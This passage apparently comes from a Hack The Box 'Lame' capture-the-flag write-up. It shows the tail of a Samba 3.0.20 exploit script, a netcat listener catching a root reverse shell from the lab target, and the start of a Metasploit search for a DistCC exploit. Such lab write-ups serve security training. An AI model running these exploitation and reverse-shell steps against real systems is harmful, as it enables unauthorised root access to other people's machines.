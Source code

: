 ```python
connection.connect(target_ip, 445)
```

All we need to do now is setup a netcat listener on port 1337 using `nc -lvnp 1337` and run our python script by simply doing `python [name_of_script].py` 

```
nc -lvnp 1337
```

```
python samba-3.0.20-exploit.py 
```

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.3] 50439
id
uid=0(root) gid=0(root)
```

And again we have a root shell!

## DistCC Daemon - 3632 - Attempting Exploitation

When looking into DistCC Daemon, we saw that there was an exploit posted by Rapid7 regarding a Metasploit Framework module. Let's go ahead and try this as well.

```
┌──(root@kali)-[~/htb/lame]     
└─# msfconsole


MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMM                MMMMMMMMMM
MMMN$                           vMMMM
MMMNl  MMMMM             MMMMM  JMMMM
MMMNl  MMMMMMMN       NMMMMMMM  JMMMM
MMMNl  MMMMMMMMMNmmmNMMMMMMMMM  JMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM 
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMNM   MMMMMMM   MMMMM  jMMMM
MMMNI  WMMMM   MMMMMMM   MMMM#  JMMMM
MMMMR  ?MMNM             MMMMM .dMMMM
MMMMNm `?MMM             MMMM` dMMMMM
MMMMMMN  ?MM             MM?  NMMMMMN
MMMMMMMMNe                 JMMMMMNMMM
MMMMMMMMMMNm,            eMMMMMNMMNMM
MMMMNNMNMMMMMNx        MMMMMMNMMNMMNM
MMMMMMMMNMMNMMMMm+..+MMNMMNMNMMNMMNMM
        https://metasploit.com


       =[ metasploit v6.0.41-dev                          ]
+ -- --=[ 2122 exploits - 1138 auxiliary - 360 post       ]
+ -- --=[ 594 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: Display the Framework log using the 
log command, learn more with help log

msf6 > search distcc

Matching Modules
```
